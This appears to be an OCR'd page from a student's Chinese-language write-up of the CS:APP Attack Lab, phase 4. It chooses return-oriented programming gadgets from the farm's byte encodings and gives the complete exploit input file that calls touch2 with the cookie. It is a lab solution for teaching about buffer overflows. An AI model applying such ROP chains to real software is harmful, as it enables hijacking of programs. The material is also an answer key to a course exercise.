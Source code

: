 不能找到直接将cookie值写入的字节

考虑使用popq，查表（Figure3 B）得范围为58-5f，只有58在farm中

确定第一步为

popq %rax 

因为两步可以完成，下一步一定是movq %rax %rdi

查表（Figure3 A）得 48 89 c7

```assembly
popq %rax
retq
movq %rax,%rdi
retq
```



!!90代表空操作!!

```assembly
0000000000000036 <getval_280>:
  36:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  3b:	c3                   	retq  
000000000000002f <setval_426>:
  2f:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  35:	c3                   	retq   
```

选择好gadgets，注意，跳转地址为ratarget内，不是fram内的地址



##### ans4.txt

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 #popq %rax ; ret
fa 97 b9 59 00 00 00 00 #cookie
c5 19 40 00 00 00 00 00 #movq %rax %rdi ; ret
ec 17 40 00 00 00 00 00 #touch2
```





#### phase5

Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3,

you caused a program to execute machine code of your own design. If CTARGET had been a network server,
